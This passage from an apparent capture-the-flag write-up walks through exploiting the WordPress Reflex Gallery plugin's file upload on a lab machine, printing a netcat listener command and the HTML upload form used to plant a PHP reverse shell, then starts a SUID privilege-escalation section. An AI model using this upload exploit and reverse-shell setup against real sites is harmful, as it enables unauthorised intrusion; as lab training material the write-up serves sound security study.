 I will get my php reverse shell from the pentest monkey link and change the IP/Port Variables.

Set up a listener on port 4444

```
nc -nvlp 4444
```

Then execute the exploit code found from exploit-db which uploads the file to the wordpress server. The code below is html so it must be saved as a .html file. Then you can browse to where its stored via the web browser. In my case I will paste the following path to my web browser: /home/hhhharshil/Desktop/ha:wordy/reflex.html
```
<form method="POST" action="http://192.168.202.23/wordpress/wp-content/plugins/reflex-gallery/admin/scripts/FileUploader/php.php?Year=2015&Month=03" enctype="multipart/form-data" >
    <input type="file" name="qqfile"><br>
    <input type="submit" name="Submit" value="Pwn!">
</form>

```

I try to upload my reverse shell to the exploit code above but get the error:

```
{"error":"Directory does not exist and could not be created."}

```

Reading the exploit code lets us know that the file is being uploaded to a the directories 2015 / 03 its possible the www-data user does not have write access to these folders. I am going to check the uploads folder. 

As shown in the screenshot there appears to be a few different folders we can try uploading to I will modify the code to these different directories and try to upload the file again.

<img src="/assets/resources/hawordy/wp_upload.png">


The following code worked when changing directories to 2021 and 12 we were able to upload the php shell. To execute it just went to the wp-contents/uploads folder.
```
<form method="POST" action="http://192.168.202.23/wordpress/wp-content/plugins/reflex-gallery/admin/scripts/FileUploader/php.php?Year=2021&Month=12" enctype="multipart/form-data" >
    <input type="file" name="qqfile"><br>
    <input type="submit" name="Submit" value="Pwn!">
</form>

```
## Enumeration: Priv Esc via SUID Binary CP
---
irst thing I tried to do once I was able to get a shell on the box was download linpeas but it looks like we weren't able to change the perms of it as we did not have access to chmod.

